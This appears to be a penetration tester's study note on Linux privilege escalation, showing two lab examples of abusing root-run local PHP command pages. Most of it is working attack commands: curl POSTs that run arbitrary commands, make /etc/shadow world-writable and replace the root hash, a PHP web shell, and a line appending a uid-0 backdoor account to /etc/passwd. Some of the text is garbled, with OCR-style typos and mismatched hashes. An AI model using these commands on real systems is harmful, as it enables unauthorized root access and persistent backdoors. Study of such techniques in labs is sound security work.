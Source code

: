 #### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```
find / -iname *.php* 2>/dev/null
```

```
find / -iname *.html* 2>/dev/null
```


```
cat start_page.php
```

Here we can see reference of cmd.php page.

`<li class="start <?php if ($page=='cmd.php'){echo 'selected’';}?>"><a href="/start_page.php?page=cmd.php">CMD</a></1i>
`
```
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

```
<fieldset> 
	<form action="/start_page.php?page=cnd.php" method="POST"> 
		<p>Command: <input name="cmd” id="cmd" value="<?php echo $cmd; ?>" onClick="this.select();" type="text" /></p>
		<p><input name="send" style="margin-left: 150px;" class="formbutton" value="CMD It!® type="submit® /></p>
```

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```
su root
```

```
password
```

#### Example 2

[[4._POST_EXPLOITATION/1._Linux_PrivEsc/1._Manual Enumeration#System Enumeration]]

`root 2056 0.0 0.0 2244 536 2 Ss 10:56 0:00 /bin/sh -c cd /home/jeremy & z-cmd -5 127.0.0.1:8989`
`root 2057 0.0 0.1 16660 3156 ? 5 10156 0:00 z-cmd -5 127.0.0.1:8389`

```
cat z-cmd
```

`<?php system($_POST[]'z'1]); ?>`

```
curl -X POST --data z='touch /home/jeremy/Ztest' 127.0.0.1:8989/z-cmd.php
```

Generate a password hash for the password “password”

using openssl :

```
openssl passwd "password"
```

```
curl -X POST --data z=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8989/z-cmd.php
```

```
cat /etc/passwd | grep root
```

`root:x:0:0:root:/root: /bin/bash`
`newroot :LIYLGXcbOROC: 0 0: root: /root: /bin/bash`

```
su newroot
```

```
password
```